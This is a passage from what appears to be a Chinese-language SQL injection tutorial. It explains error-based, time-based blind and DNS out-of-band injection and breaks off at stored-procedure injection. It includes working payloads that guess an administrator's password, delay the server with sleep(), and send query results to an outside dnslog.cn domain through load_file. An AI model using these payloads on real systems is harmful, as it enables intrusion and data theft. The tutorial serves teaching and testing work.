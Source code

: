 
第一个payload会运行1/0，这会导致SQL产生报错。第二个payload不会运行1/0，导致SQL不会产生报错，我们可以分别尝试上述注入，通过应用是否会产生不同的响应，来做出判断。如果会产生响应，那么我们就可以使用报错注入来获取到一些我们想要的信息。

下面我们一起看一个例子。

SELECT * FROM products WHERE id_product=$id_product

# http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a


在这个例子中，我们假设Users表中有Username以及Password两个字段，现在已知存在一个用户名为Administrator，现在想要猜测他的密码。

这时我们可以利用上述payload，判断密码首字母的ASCII码是否大于m的ASCII码。如果大于，那么就会运行1/0，这会引起除零错误，否则就不会引起错误。类似于布尔注入的方法，我们可以通过不断地尝试来获取到Password的值。

时间盲注

我们顺着报错注入的例子，继续深入思考。如果应用系统具备很好的错误处理逻辑，这样在响应请求时不会产生异常，报错注入就会失效。这种情况，我们可以尝试时间盲注（又称为时延注入）。

这种攻击方案的底层逻辑是，攻击者通过控制注入的参数，能够获得服务器的响应延时控制权。这种注入方式与数据管理系统相关，具体实施需要确认数据管理系统的信息。如下为一个时间盲注示例：

SELECT * FROM products WHERE id_product=$id_product

# http://www.example.com/product.php?id_product=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--


在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。

DNS带外注入

在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。

在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。

DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：

SELECT * FROM products WHERE id_product=$id_product

#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+


该payload使用了loadfile函数，该函数在这里可以通过UNC路径读取远程机器上的文件。它的参数是用concat函数拼接起来的UNC路径，由于\代表了转义的意思，所以实际拼接为\\{query_result}.af13zg.dnslog.cn\aa.txt，其中{query_result}为查询的结果，根据泛域名解析原理，该请求会被afl3zg.dnslog.cn记录下来。afl3zg.dnslog.cn是在DNSLog Platform上面生成的一个域名，我们可以借助它来观察到外带的结果。域名生成之后，点击刷新记录，就可以显示出它接收到的访问信息，其中就包括了我们的查询结果。

存储过程注入

在存储过程中，如果应用系统使用和用户交互式的SQL输入，程序就必须考虑注入风险。开发人员需要严格判断用户输入的合法性，以消除代码注入的风险。如果风险不清理，存储过程就可能会被用户输入的恶意代码污染。

下面这段代码，是存储过程注入示例：
